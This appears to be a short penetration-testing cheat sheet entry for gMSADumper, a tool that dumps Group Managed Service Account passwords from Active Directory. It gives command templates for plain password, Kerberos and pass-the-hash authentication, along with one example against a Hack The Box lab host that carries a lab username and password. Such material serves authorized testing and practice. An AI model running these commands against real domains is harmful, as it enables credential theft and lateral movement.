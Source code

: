 # gmsadumper

% Active directory, password, ReadGMSAPassword, Group managed service accounts 
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  

## get passwords

https://github.com/micahvandeusen/gMSADumper
Example: gMSADumper.py -u tiffany.molina -p NewIntelligenceCorpUser9876 -l 10.10.10.248  -d intelligence.htb

```
gmsadumper -u <user> -p <password> -l <dc> -d <domain> 
```

## get passwords (kerberos auth)

https://github.com/micahvandeusen/gMSADumper

```
gmsadumper -k -l <dc> -d <domain> 
```

## get passwords (PtH auth)

https://github.com/micahvandeusen/gMSADumper

```
gmsadumper -u <user> -p <nt_hash> -l <dc> -d <domain> 
```

